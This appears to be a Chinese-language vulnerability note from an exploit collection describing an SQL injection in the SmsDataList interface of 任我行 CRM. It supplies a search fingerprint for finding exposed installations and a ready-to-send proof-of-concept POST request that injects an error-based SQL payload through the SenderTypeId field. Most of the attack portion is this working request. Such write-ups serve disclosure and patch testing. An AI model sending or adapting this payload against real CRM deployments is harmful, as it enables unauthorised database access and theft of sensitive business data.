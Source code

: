 # 任我行 CRM SmsDataList SQL注入漏洞

## 漏洞描述

*任我行CRM*系统是客户关系管理,集OA自动化办公、OM目标管理、KM知识管理、HR人力资源为一体集成的企业管理软件。

任我行 CRM SmsDataList 接口存在SQL注入漏洞，攻击者通过漏洞可以执行任意数据库语句，获取敏感信息。

## 漏洞影响

任我行 CRM

## 网络测绘

"欢迎使用任我行CRM"

## 漏洞复现

登陆页面

![image-20230828150050416](images/image-20230828150050416.png)

验证POC

```
POST /SMS/SmsDataList/?pageIndex=1&pageSize=30 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: 

Keywords=&StartSendDate=2020-06-17&EndSendDate=2020-09-17&SenderTypeId=0000000000' and 1=convert(int,(sys.fn_sqlvarbasetostr(HASHBYTES('MD5','123456')))) AND 'CvNI'='CvNI
```

![image-20230828150106754](images/image-20230828150106754.png)
